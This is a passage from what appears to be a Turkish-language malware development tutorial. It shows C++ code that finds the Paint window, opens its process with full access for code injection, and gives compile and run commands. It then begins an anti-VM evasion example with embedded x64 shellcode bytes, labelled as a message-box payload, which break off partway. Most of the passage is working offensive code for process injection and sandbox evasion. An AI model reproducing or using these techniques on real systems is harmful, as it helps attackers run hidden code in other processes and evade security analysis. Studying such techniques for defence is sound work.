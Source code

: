Gördüğünüz gibi,ana mantık burda:    

```cpp
//...
// find a window for mspaint.exe
HWND hw = FindWindow(NULL, (LPCSTR) "Untitled - Paint");
if (hw == NULL) {
  printf("failed to find window :(\n");
  return -2;
}
GetWindowThreadProcessId(hw, &pid);
ph = OpenProcess(PROCESS_ALL_ACCESS, FALSE, pid);
//...
```

### demo

Haydi derleyelim:    

```bash
x86_64-w64-mingw32-g++ hack.cpp -o hack.exe -mconsole \
-I/usr/share/mingw-w64/include/ -s -ffunction-sections \
-fdata-sections -Wno-write-strings -Wint-to-pointer-cast \
-fno-exceptions -fmerge-all-constants \
-static-libstdc++ -static-libgcc -fpermissive
```

![injection](./images/43/2022-03-15_12-10.png){width="80%"}    

Ve çalıştıralım:   

```bash
.\hack.exe 1304
```

![injection](./images/43/2022-03-15_17-39.png){width="80%"}    

![injection](./images/43/2022-03-15_13-58.png){width="80%"}    

Gördüğünüz gibi,her şey mükemmel çalışıyor :)     

### anti-VM   

Bu işlevin başka bir kullanım örneği, sanal makine (VM) 'kaçınması'dır. Bazı pencere adlarının yalnızca sanal bir ortamda mevcut olması ve normal ana bilgisayar işletim sisteminde olmaması gerçeği buna dayanır.     
Bir örneğe bakalım:     

```cpp
/*
 * hack.cpp - VM evasion via FindWindow. C++ implementation
 * @cocomelonc
 * https://cocomelonc.github.io/tutorial/
 2022/03/08/malware-injection-17.html
*/
#include <stdio.h>
#include <stdlib.h>
#include <windows.h>

unsigned char my_payload[] =

  // 64-bit meow-meow messagebox
  "\xfc\x48\x81\xe4\xf0\xff\xff\xff\xe8\xd0\x00\x00\x00\x41"
  "\x51\x41\x50\x52\x51\x56\x48\x31\xd2\x65\x48\x8b\x52\x60"
  "\x3e\x48\x8b\x52\x18\x3e\x48\x8b\x52\x20\x3e\x48\x8b\x72"
  "\x50\x3e\x48\x0f\xb7\x4a\x4a\x4d\x31\xc9\x48\x31\xc0\xac"
  "\x3c\x61\x7c\x02\x2c\x20\x41\xc1\xc9\x0d\x41\x01\xc1\xe2"
  "\xed\x52\x41\x51\x3e\x48\x8b\x52\x20\x3e\x8b\x42\x3c\x48"
```